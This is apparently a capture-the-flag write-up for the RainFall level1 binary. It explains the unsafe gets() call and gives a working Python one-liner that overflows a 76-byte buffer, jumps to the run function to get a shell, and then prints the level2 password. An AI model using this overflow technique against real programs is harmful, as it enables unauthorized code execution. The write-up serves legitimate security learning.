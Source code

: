 By doing a `objdump -D level1` we can notice that the code of the binary contains 2 functions : "main" and "run". It also calls many functions, including `gets` function. The gets() function reads bytes from the standard input stream, until a newline is read or an end-of-file condition is encountered. 

From `gets` man page, we can notice that it has a security problem : 
```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the
       data  in  advance  how  many  characters  gets() will read, and because
       gets() will continue to store characters past the end of the buffer, it
       is  extremely dangerous to use.  It has been used to break computer se‐
       curity.  Use fgets() instead.
```

The use of `gets` is discouraged because it can allow bufferoverflow to happen.

What we do is overflow the 76 characters, and then write in little endian the address of the `run` function, which will allow us to go into a new shell.

> level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"' ; cat) | ./level1   
> Good... Wait what?

>cd /home/user/level2   
>cat .pass   
>53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

# Sources :

About `gets` function : 
- https://pubs.opengroup.org/onlinepubs/009695399/functions/gets.html
- https://stackoverflow.com/questions/4346598/gets-function-in-c

About bufferoverflows and how to exploit them : 
- https://www.kali-linux.fr/hacking/overflow-comment-ca-marche
- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique


Assembly basics :
- https://beta.hackndo.com/assembly-basics/